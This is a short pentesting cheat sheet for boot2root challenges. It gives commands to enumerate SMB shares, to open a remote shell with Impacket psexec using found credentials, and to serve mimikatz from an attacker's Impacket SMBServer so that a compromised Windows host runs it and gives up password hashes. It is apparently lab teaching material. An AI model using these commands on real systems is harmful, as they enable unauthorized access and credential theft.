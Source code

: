 # SMB - Enumeration

When completing boot2root challenges, if SMB is open (Port 139 & 445) it is reccomended to see if the user can list SMB shares unauthenticated.

The below commands are different ways in which a user can interact with SMB shares:
- smbmap -H 10.10.10.10
- smbclient -L 10.0.0.10

If it asks for a password, just simple hit enter and that will confirm if authentication is required or if the user can view the shares unauthenticated.
If the user has read/write access to the share, it is then reccomended to connect to the share by running the below command:
```
smbclient //10.10.10.10/sharename
```

# SMB - Impacket Psexec

PsExec is a portable tool developed by Microsoft that lets a user run processes remotely using user credentials on the system.

If a user has compromised a user account and has found the password of the account, the user can then psexec into the machine if there is no other ways of entry. (Example: SSH, RDP, WinRM and etc is turned off).

This method requires port 445 to be open, if it is not then the user may have to port forward the port to a listening state.

The command the user should run:
```
/usr/share/doc/python-impacket/examples/psexec.py hacker@10.10.10.10
```

The user will be prompted for hacker's password: hacker

An interactive shell should be spawned as the user hacker.

# Impacket's SMBServer (For File Transfer)

Impacket's SMBServer a tool to remotely transfer, capture hashes, use executables and more.

This is how a user can capture hashes on a system once compromiosed. 

On a Linux machine the user should navigate to: 
```
cd /usr/share/windows-binaries
```

Identify the mimikatz executable is present then run Impacket's SMBServer:
```
python /usr/share/doc/python-impacket/examples/smbserver.py a .
```

On the compromised Windows system run:
```
\\10.10.10.10\a\mimikatz.exe
```

Mimikatz should start, now you can catpure hashes using Mimikatz.

- To be continued. 
@sinfulz
